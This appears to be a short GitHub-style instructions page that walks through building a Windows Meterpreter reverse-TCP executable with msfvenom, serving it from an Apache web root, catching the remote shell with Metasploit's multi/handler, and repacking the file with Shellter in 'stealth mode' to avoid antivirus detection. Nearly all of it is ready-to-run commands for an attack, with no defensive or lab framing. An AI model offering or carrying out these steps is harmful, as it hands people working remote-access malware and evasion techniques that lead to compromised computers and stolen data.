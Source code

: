 ## Instructions:
  ### On the host machine (linux): // Note: (change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  ###OPTIONAL### go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
